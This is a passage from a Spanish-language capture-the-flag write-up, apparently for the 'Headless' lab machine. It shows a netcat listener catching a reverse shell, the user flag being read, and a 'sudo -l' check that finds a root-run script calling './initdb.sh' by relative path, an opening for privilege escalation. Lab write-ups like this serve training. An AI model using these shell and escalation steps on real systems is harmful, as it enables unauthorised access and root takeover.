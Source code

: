 Verificamos que logramos obtener acceso al servidor y visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.8] 52348
bash: cannot set terminal process group (1379): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ cat /home/dvir/user.txt
cat /home/dvir/user.txt
4d7ed1324***********************
```

## Privilege Escalatioon

### Abusing sudoers privilege

Revisando si el usuario `dvir` que disponemos actualmente, disponía de algún permiso de `sudoers`, nos encontramos que si dispone de este privilegio sobre el binario `/usr/bin/check`.

```bash
dvir@headless:~/app$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

Revisando este binario, nos encontramos con el siguiente script.

El script `syscheck` realiza las siguientes funciones:

1. Verifica si el script se ejecuta con privilegios de root. Si no es así, termina con un error.
2. Obtiene y muestra la fecha y hora de la última modificación del kernel en `/boot`.
3. Muestra el espacio disponible en disco en la partición raíz (`/`).
4. Muestra el promedio de carga del sistema (load average).
5. Verifica si el servicio de base de datos (representado por `initdb.sh`) está en ejecución. Si no lo está, lo inicia; si ya está en marcha, muestra un mensaje indicando que el servicio está activo.

```bash
dvir@headless:~/app$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
```